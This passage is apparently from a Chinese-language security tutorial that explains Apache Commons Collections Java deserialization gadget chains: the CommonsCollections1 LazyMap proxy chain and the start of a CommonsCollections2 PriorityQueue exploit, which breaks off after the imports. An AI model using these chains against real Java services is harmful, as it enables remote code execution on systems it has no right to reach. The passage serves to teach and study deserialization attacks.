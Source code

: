 ```java
            if (var7 != null) {
                Object var8 = var5.getValue();
                if (!var7.isInstance(var8) && !(var8 instanceof ExceptionProxy)) {
                    var5.setValue((new AnnotationTypeMismatchExceptionProxy(var8.getClass() + "[" + var8 + "]")).setMember((Method)var2.members().get(var6)));
                }
            }
        }
    }
```

发现invoke函数的1处，若this.memberValues是LazyMap则可以触发get函数。

那么可以利用AnnotationInvocationHandler实现了InvocationHandler，是一个动态代理类的特点，创建一个LazyMap的代理。（动态代理详见[Java动态代理](https://javaguide.cn/java/basis/proxy.html#_3-1-jdk-%E5%8A%A8%E6%80%81%E4%BB%A3%E7%90%86%E6%9C%BA%E5%88%B6)）

即Exp中的

​`InvocationHandler ith = (InvocationHandler) ctor.newInstance(SuppressWarnings.class, outerMap)`​

​`Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},ith)`​

当mapProxy调用一个方法时，这个方法的调用就会被转发到实现了InvocationHandler接口类的AnnotationInvocationHandler的invoke方法来调用。

而readObject函数的2处，刚好通过mapProxy调用了entrySet方法，此时就会触发invoke函数的1处。

因此有Exp代码中的`Object o = ctor.newInstance(SuppressWarnings.class, mapProxy)`​

这样整个调用链就完成了。

ps：我们在TransformerMap链中提到了构造AnnotationInvocationHandler实例时要用SuppressWarnings类、Target类或Retention类，但LazyMap链在2处即可触发，不涉及后面的代码，因此此处任意Annotation类的继承类都可以。

## CommonsCollections2

### 版本适用范围

commons-collections4 4.0

### PriorityQueue链

#### Exp展示

commons-collections4 4.0中，LazyMap和TransformedMap没有了decorate方法，因此CommonCollections1中的利用链无法使用，需要另找别的利用链。

CommonCollections2的思路是创建一个类，在该类中构造一个包含payload的static代码块，那么JVM加载类时会执行这些静态的代码块，就会触发payload。

```java
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CommomsCollections2 {
    public static void main(String[] args) throws Exception {
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        String TemplatesImpl="com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

```
